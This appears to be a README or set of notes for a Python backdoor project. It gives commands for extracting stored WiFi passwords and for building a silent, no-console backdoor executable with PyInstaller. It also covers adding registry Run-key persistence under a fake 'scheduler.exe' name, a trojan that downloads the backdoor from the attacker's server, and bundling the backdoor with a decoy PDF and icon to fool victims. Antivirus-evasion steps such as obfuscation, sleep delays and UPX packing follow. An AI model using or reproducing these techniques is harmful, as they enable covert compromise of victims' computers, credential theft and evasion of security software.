



## py-backdoor
- Initial Execution
- 
- Execution after Boot [ Windows-Persistence]
- 
### </>
- **WiFi-Password Extraction**
	- To show all networks - `netsh wlan show profile`
	- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- `pyinstaller client.py --onefile`
		- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target need an internet connection when running the trojan
	- Malware files have to be accessible via direct URL
### Packaging - Combine Dummy w/ Backdoor
- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
- **mask executable** with `.ICO`
	- `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
	- 
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- `./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
- `IDAPro` can be used to modify the binary itself
